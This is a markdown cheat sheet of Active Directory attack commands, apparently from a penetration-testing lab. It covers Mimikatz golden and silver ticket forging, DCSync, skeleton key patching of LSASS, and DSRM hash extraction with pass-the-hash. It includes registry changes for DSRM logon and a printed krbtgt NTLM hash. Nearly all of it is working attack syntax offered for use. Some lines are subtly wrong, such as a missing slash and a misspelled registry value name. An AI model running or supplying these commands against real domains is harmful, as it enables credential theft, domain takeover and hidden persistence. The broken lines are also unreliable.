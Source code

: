 **Golden Ticket:**


Once we get inside DC with the privileges of Domain Administrator, we can execute following command to get krbtgt hash:
```Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC_computer>```

Once we get the hash of krbtgt account, we can generate our own TGT using:
```Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<sid> /krbtgt:<krbtgt_hash> id:<id> /groups:<group_id_optional> /startoffset:0 /endin:600 /renewmax:10080 /ptt"'```

> Found the following creds of krbtgt:


> RID  : 000001f6 (502)


> User : krbtgt


> LM   :


> NTLM : ff46a9d8bd66c6efd77603da26796f35


To see currently stored tickets:
``` klist```


**DCSync**


```Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\<username>"'```
Example: ```Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'```



**Silver Ticket:**


Golden ticket creates a TGT using krbtgt's hash, but Silver ticket attack creates a TGS using the hash of the service to be approached.

```Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain_name> /sid:<sid> /target:<target_host_where_service_is_being_used> /service:<service_name> /rc4:<password_hash_for_machine_account> /user:<username> /ptt"'```


**Skeleton Key:**


Using skeleton key malware(attack/technique), the script modifies the LSASS(which handles the security and auth stuff in AD) gets modified and a secret key/password is made valid for every account other than their original password.
That secret key can be used to access any account.

```Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <domain_name>```

Note: This, by default sets the secret key/password as "mimikatz". But the above "patching" can only be performed once. To do it again, the DC needs to be restarted. Also, this gives us persistence to some extent but not for much long time.
As soon as the DC restarts, the skeleton key is removed.



**DSRM(Directory Service Restore Mode):**


When a computer is promoted to Domain Controller, a DSRM password is set which is the local admin password of that computer.
It can be extracted using:

Note: Domain admin privs are required

```Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <domain_controller>```

After obtaining the DSRM hash:

```Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<DC-computer> /user:Administrator /ntlm:<dsrm_hash> /run:powershell.exe"'```

Before using the above command to use DSRM hash, first we need to change a registry key for changing the logon behaviour of DSRM. For that, just get inside DC as DA, and execute the following powershell command:

```New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD```

Sometime, you will see an error that this propery already exists. That means you don't need to create a new property using "New-ItemProperty" but you have to use "Set-ItemProperty" to change the value of that property:

```Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2```

Now once the logon behaviour is changed, now we can get inside DC using the command mentioned before.
Once we are in, you might notice that Invoke-Command is not working and file traversal is not possbile that way. 
For that, you can use:

```ls \\dcorp-dc\C$```


